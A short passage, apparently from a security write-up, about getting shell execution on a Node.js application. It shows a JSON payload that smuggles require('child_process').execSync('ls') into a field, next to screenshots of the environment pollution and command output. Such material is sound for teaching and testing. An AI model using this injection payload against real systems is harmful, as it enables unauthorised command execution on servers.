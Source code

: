 ![pollute_env](images/of_8.png)

Check OUTPUT:

![command_exec](images/of_9.png)

And with a Shell execution:

```JSON
{"aaaa":"console.log(require('child_process').execSync('ls').toString());//"}
```
